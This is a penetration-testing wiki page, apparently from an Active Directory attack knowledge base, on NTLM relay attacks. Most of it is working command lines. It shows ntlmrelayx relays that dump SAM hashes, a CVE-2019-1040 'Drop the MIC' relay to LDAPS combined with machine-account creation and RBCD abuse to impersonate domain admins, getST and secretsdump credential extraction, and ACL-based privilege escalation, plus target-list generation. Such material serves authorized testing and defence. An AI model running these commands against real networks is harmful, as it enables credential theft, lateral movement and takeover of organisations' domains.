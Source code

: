 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1557.001
---
```


# NTLM relay

## Theory

After successfully [forcing a victim to authenticate](../forced-authentications/) \(NTLM authentication\) to an attack server, the attacker can try to relay that authentication to targets of his choosing. Depending on the mitigations in place, he will be able to move laterally and escalate privileges within an Active Directory domain.

## Practice

The NTLM authentication messages are embedded in the packets of application protocols such as SMB, HTTP, MSSQL, SMTP, IMAP. The way NTLM authentication is conducted is kind of protocol-independent. It means one can relay NTLM authentication messages over a certain protocol, say HTTP, over another, say SMB. That is called **cross-protocols NTLM relay**. It also means the relays and attacks possible depend on the application protocol the NTLM authentication is embedded in.

[ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) \(Python\), [MultiRelay](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py) \(Python\) and [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) \(Powershell\) are great tools for relaying NTLM authentications. Those tools setup relay clients and relay servers waiting for incoming authentications. Once the servers are up and ready, the tester can initiate a [forced authentication attack](../forced-authentications/).

{% hint style="warning" %}
When combining NTLM relay with Responder for [name poisoning](../forced-authentications/#llmnr-nbt-ns-mdns-name-poisoning), testers need to make sure that Responder's servers are deactivated, otherwise they will interfere with ntlmrelayx ones.

```text
sed -i 's/SMB = On/SMB = Off/g' /PATH/TO/Responder/Responder.conf
sed -i 's/HTTP = On/HTTP = Off/g' /PATH/TO/Responder/Responder.conf
```
{% endhint %}

{% tabs %}
{% tab title="Credentials theft" %}
The following command will try to relay the authentication over SMB and attempt to dump the hashes from the remote target’s SAM if the relayed victim has the right privileges.

```bash
ntlmrelayx.py -t smb://$TARGET
```
{% endtab %}

{% tab title="Credentials theft \(SOCKS\)" %}
The following command will try to relay the authentication over SMB and open a SOCKS proxy.

```bash
ntlmrelayx.py -tf targets.txt -socks
```

The attacker will be able to use secretsdump along with proxychains to dump hashes from the remote target's SAM, SYSTEM and SECURITY.

```bash
proxychains secretsdump.py -no-pass $DOMAIN/$USER@$TARGET
```
{% endtab %}

{% tab title="Kerberos delegation" %}
The following command will 

* try to relay the authentication over LDAPS, attempt to exploit CVE-2019-1040 \(a.k.a. Drop the MIC\) to "unsign" the NTLM messages \(`--remove-mic`\)
* abuse the default value \(10\) of `ms-DS-MachineAccountQuota` to create a domain machine account \(`--add-machine`\)
* and finally, [abuse Resource Based Kerberos Constrained Delegations \(RBCD\)](../abusing-kerberos/kerberos-delegations.md#resource-based-constrained-delegations-rbcd) to gain admin access to the relayed machine \(`--delegate-access`\).

```bash
ntlmrelayx.py -t ldaps://$DC_TARGET -smb2support --remove-mic --add-computer SHUTDOWN --delegate-access
```

If successful, the attacker will then be able to get a service ticket with the created domain machine account for the relayed victim and impersonate any account \(e.g. the domain admin\) on it.

```bash
getST.py -spn host/$RELAYED_VICTIM '$DOMAIN/$NEW_MACHINE_ACCOUNT$:$PASSWORD' -dc-ip $DOMAIN_CONTROLLER_IP -impersonate $USER_TO_IMPERSONATE
export KRB5CCNAME=$USER_TO_IMPERSONATE.ccache
secretsdump.py -k $RELAYED_VICTIM
```

{% hint style="info" %}
The `--add-computer` is optional. The computer account to give delegation rights to can be defined with the `--escalate-user` option.

```bash
ntlmrelayx.py -t ldap://$DC_TARGET -smb2support --remove-mic --escalate-user $ControlledComputerAccount --delegate-access
```
{% endhint %}
{% endtab %}

{% tab title="ACL abuse" %}
{% hint style="info" %}
This technique is usually combined with a [PushSubscription abuse \(a.k.a. PrivExchange\)](../forced-authentications/#pushsubscription-abuse-a-k-a-privexchange) to force an Exchange server to initiate an authentication, relay it to a domain controller and abuse the default high privileges of Exchange servers in AD domains \(`WriteDACL` over domain object, see [Abusing ACEs](../abusing-aces/)\) to escalate a domain user privileges \(`--escalate-user`\).
{% endhint %}

The following command will try to relay the authentication over LDAPS and escalate the privileges of a domain user by adding it to a privileged group \(`--escalate-user`\) if the relayed account has sufficient privileges.

```bash
ntlmrelayx.py -t ldaps://$DOMAIN_CONTROLLER --escalate-user SHUTDOWN
```
{% endtab %}
{% endtabs %}

The ntlmrelayx tool offers many features making it a very valuable asset when pentesting an Active Directory domain:

* It can be combined with mitm6 \(for [DHCPv6 + name poisoning](../forced-authentications/#ipv6-dns-poisoning)\) by enabling IPv6 support with the `-6` option.
* It has the ability to open SOCKS proxies for every new session after a successful relayed authentication. This allows testers to exploit those sessions later on with tools like [proxychains](https://github.com/haad/proxychains). This feature can be enabled with the `-socks` option.
* It supports SMB2. It can be enabled with the `-smb2support` option.
* It implements **CVE-2019-1040** with the `--remove-mic` option, usually needed when attempting "**unsigning cross-protocols NTLM relay attacks**" \(e.g. **SMB to LDAP/S\)**.
* It has the ability to attack multiple targets with the `-tf` option instead of `-t`.
* It has the ability to dump domain info and escalate user privileges when possible \(via [ACEs abuses](../abusing-aces/)\) with the `--escalate-user` option.
* It has the ability to operate an [RBCD Kerberos delegation](../abusing-kerberos/kerberos-delegations.md#resource-based-constrained-delegations-rbcd) attack with the `--delegate-access` option.
* It has the ability to relay connections for specific target users.
* It has the ability to relay a single connection \(SMB only for now\) to multiple targets.

{% hint style="info" %}
In theory, thanks to [the recent "multi-relay" feature](https://www.secureauth.com/blog/what-old-new-again-relay-attack), another attacker machine/interface can be added to the targets to combine ntlmrelayx with Responder servers. The attackers will be able capture a NTLM hash with a custom challenge on an interface/machine, while relaying on another.
{% endhint %}

The targets file used with the `-tf` option can contain the following

```bash
# User filter for SMB only (for now)
smb://DOMAIN\User@192.168.1.101
smb://User@192.168.1.101

# Domain name can be used instead of the IP address
ldaps://someserver.domain.lan
someserver.domain.lan
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) has the ability to generate the list of possible targets for relay to SMB \(hosts with SMB signing disabled\).

```bash
crackmapexec smb --gen-relay-list targets.txt $SUBNET
```

### 🛠️ Drop The MIC \(CVE-2019-1040\)

//TODO

## References

{% embed url="https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html" caption="" %}

{% embed url="https://en.hackndo.com/ntlm-relay/" caption="" %}

{% embed url="https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire" caption="" %}

{% embed url="https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/" caption="" %}

{% embed url="https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/" caption="" %}

{% embed url="http://davenport.sourceforge.net/ntlm.html" caption="" %}

